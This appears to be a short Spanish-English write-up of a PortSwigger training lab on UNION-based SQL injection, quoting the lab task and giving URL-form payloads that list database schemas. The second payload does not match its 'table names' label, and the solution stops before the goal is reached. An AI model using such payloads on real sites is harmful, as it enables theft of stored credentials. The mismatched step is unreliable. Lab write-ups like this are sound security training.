 # `LAB`: SQL injection attack, listing the database contents on non-Oracle databases

## Descripción:

 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user. 

### Oracle Cheastsheet:

- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

### Explicación:

- Muy similar a los laboratorios anteriores enfocados a diferentes RDBMS
- En este caso es llegar hasta el login con `adminsitrador`




## Solución:

````py
## Dumpear la base de Datos:
.web-security-academy.net/filter?category=-Pets'  Union Select '1',schema_name FROM information_schema.schemata -- -
    #	information_schema
    #	public
    #	pg_catalog

## Dumpear el Nombre de las Tablas:
.web-security-academy.net/filter?category=Pets' Union Select 1,@@version -- -
````
